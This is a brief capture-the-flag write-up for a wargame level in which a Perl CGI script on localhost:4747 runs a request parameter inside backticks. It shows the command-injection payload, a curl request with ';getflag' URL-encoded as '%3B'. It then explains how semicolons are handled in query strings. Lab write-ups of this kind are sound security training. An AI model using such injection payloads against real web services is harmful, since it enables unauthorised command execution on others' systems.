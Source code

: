 LEVEL04
=======

The script level04.pl is a Perl CGI script running on localhost:4747. It takes a parameter x from a web request and executes it using backticks `echo $y 2>&1`, which means it is vulnerable to command injection.

`curl "http://localhost:4747/?x=;getflag"`

need to replace ';' with '%3B'

because Semicolon (;) Special Role in URLs: In URLs, semicolons (;) are not always treated the same as regular characters. They are sometimes used by servers and web frameworks to separate parameters in query strings

for exemple:
`curl "http://localhost:4747/?x=%3Bgetflag"`
x='%3Bgetflag'

`curl "http://localhost:4747/?x=hello;y=world"`
In this case:
x=hello is one parameter.
y=world is another parameter.

https://prod.liveshare.vsengsaas.visualstudio.com/join?0221803201138C2D94FA84E2EB427CB60F85